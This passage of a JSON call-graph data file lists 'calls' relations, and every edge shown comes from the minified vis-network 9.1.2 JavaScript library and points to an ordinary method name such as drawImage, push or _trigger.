"target": "drawImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "drawImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "drawImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "callback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_fixImageCoordinates"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "init"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_redrawWithImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_tryloadBrokenUrl"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "isExtensible"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "isExtensible"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "entries"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getConstructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setStrong"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "dispatchException"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "abrupt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_invoke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setPrototypeOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "isGeneratorFunction"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "reverse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "complete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "complete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_flushIfNeeded"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "queue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_flushIfNeeded"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "flush"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "flush"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "flush"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "wrap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "finish"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "mark"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "wrap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "finish"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "mark"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "wrap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "finish"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "mark"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "wrap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "finish"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "wrap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "finish"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "wrap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "finish"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_addItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_addItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_updateItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_addItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_filterFields"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_filterFields"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "wrap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "finish"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getDataSet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getIds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getIds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getDataSet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stream"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": 